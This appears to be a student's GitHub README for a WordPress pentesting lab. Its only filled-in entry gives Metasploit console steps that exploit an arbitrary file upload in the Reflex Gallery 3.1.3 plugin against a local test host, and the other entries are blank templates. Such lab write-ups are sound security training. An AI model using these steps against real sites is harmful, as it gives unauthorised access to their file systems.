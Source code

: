 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. (Required) Arbitrary File Upload
  - [ ] Summary: Using Metasploit, allows the user to gain access to the file system.
    - Vulnerability types: Arbitrary File Upload
    - Tested in version: 3.1.3 (Reflex Gallery)
    - Fixed in version: 3.1.4 (Reflex Gallery)
  - [ ] GIF Walkthrough: <img src="arbitrary_file.gif">
  - [ ] Steps to recreate: 
		1. '''Start service postgresql start'''
		2. '''msfdb init'''
		3. '''msfconsole'''
		4. At this point, you will be inside of the Metasploit console
		5. '''db_status (If it reads Connected to msf, you're good to go)'''
		6. '''search Reflex'''
		7. '''use 0'''
		8. '''set RHOST 127.0.0.1'''
		9. '''set RPORT 8080'''
		10. '''set LHOST 192.168.65.3 (Different in some cases, it's eth0 under ifconfig)'''
		11. '''exploit (this will gain you access to the file system to edit php files)'''
### 2. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: -

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with Screen To GIF

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.